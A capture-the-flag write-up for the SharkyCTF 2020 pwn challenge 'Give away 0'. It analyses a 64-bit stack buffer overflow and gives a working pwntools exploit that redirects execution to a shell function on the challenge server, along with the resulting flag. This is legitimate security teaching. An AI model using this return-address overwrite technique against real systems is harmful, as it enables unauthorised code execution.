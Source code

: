 # SharkyCTF 2020

## Give away 0

> 160
>
> Home sweet home.
>
> Creator: Hackhim
>
> `nc sharkyctf.xyz 20333`
>
> [`0_give_away`](0_give_away)

Tags: _pwn_ _bof_ _x86-64_ _rop_


## Summary

Overflow buffer; overwrite return address with address of win function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary; buffer overflow vulnerability.  No PIE; ROPtions.  GOT some too.

    
### Decompile with Ghidra

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x32,stdin);
  return;
}
```

`32 != 0x32` (`50`) is the vulnerability.  With no PIE overwriting the return address in the stack and calling `win_func` is trivial:

```c
void win_func(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

Just write `0x28` bytes to get to the return address in the stack:

```
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x28]:1     local_28
```

Then the address of `win_func`.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./0_give_away')
p = remote('sharkyctf.xyz', 20333)

binary = ELF('./0_give_away')
win = binary.symbols['win_func']

payload  = 0x28 * b'A'
payload += p64(win)

p.sendline(payload)
p.interactive()
```

Output:

```
[+] Opening connection to sharkyctf.xyz on port 20333: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway0/0_give_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}
```
